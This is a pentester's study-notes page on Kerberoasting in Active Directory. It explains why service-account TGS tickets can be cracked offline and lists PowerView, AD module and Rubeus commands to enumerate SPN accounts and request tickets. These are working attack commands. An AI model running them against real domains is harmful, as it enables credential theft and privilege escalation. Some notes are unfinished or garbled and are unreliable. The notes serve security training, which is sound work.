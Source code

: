 # AD - Privilege Escalation

## 🍳Kerberoast

### Description

* Offline cracking of service account password
* The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash/NTLM hash of the service account - this makes it possible to request a ticket and do offline cracking
* Service accounts are many times ignored (less pw changes) and have privileged access
* Password hashes of services accounts could be used to create silver tickets
* In the logs will only be a Kerberos Ticket Requested entry on the dc
* If an account has the property ServicePrincipalName set to not 'null', the KDC assumes that it is a service account
* Abuse Step 3 and 4 - when we get it afte step 4 we can brute force it
* ❓If you run a service as a domain admin, all the protections like protected users groups, credential manager etc. because for a service account the sercrets are stored in lsssecret and not in lsass

{% hint style="info" %}
Only target user service accounts and not machine accounts.

Machine accounts wont work, because they create 100 characters and rotate it every 30 days.
{% endhint %}

### Requirement

* No privs needed
* ❓TGT needed?

### Tool

**1.Find user accounts used as service accounts (PowerView):**

{% code overflow="wrap" %}
```powershell
Get-DomainUser -SPN
Get-NetUser -SPN

.\rubeus.exe kerberoast
.\rubeus.exe kerberoast /stats
Rubeus.exe kerberoast /stats /rc4opsec

ADModule:
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -properties ServicePrincipalName
```
{% endcode %}

**2. Request a TGS for the SPN**

{% code overflow="wrap" %}
```powershell
.\rubeus.exe kerberoast /user:svcadmin /simple
.\rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec


Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "SPN Name from command before"
```
{% endcode %}

